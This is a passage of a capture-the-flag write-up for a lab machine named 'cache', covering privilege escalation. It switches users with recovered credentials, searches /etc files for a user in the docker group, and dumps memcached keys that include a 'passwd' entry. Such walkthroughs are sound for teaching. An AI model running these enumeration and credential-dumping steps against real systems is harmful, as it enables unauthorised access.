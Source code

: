 # Privilege escalation

If we check the users of the machine we have only three with a bash:

- root
- luffy
- ash

If we remember we had the credentials for the user ash, and they can be used to have a shell as this user.

```bash
www-data@cache:/var/www/hms.htb/public_html/interface/main$ su ash
Password: 
ash@cache:/var/www/hms.htb/public_html/interface/main$ whoami
ash
```

Now, if we enumerate the groups of the machine we can see that docker is available and that user luffy is part of the docker group. So if we became luffy we are essentially root.

```bash
ash@cache:/var/www/hms.htb/public_html/interface/main$ grep -riw 'luffy' /etc/ 2>/dev/null
/etc/passwd-:luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
/etc/passwd:luffy:x:1001:1001:,,,:/home/luffy:/bin/bash
/etc/group-:luffy:x:1001:
/etc/group-:docker:x:999:luffy
/etc/subuid:luffy:231072:65536
/etc/ssh/sshd_config:AllowUsers luffy
/etc/subgid:luffy:231072:65536
/etc/group:luffy:x:1001:
/etc/group:docker:x:999:luffy
```

Making som basic enumeration we encounter with the port 11211 open internally. This is the default port for the service memcached. We can connect to this service using **nc**.

```bash
ash@cache:/var/www/hms.htb/public_html/interface/main$ nc localhost 11211

ERROR
help
ERROR
```

Searching we can find in  [https://book.hacktricks.xyz/network-services-pentesting/11211-memcache#dumping-memcache-keys-ver-1.4.31+](https://book.hacktricks.xyz/network-services-pentesting/11211-memcache#dumping-memcache-keys-ver-1.4.31+) how to interact with the service.

```bash
lru_crawler metadump all
key=account exp=-1 la=1699018861 cas=361 fetch=no cls=1 size=75
key=file exp=-1 la=1699018861 cas=362 fetch=no cls=1 size=70
key=passwd exp=-1 la=1699018861 cas=363 fetch=no cls=1 size=74
key=user exp=-1 la=1699018861 cas=364 fetch=no cls=1 size=68
END
```
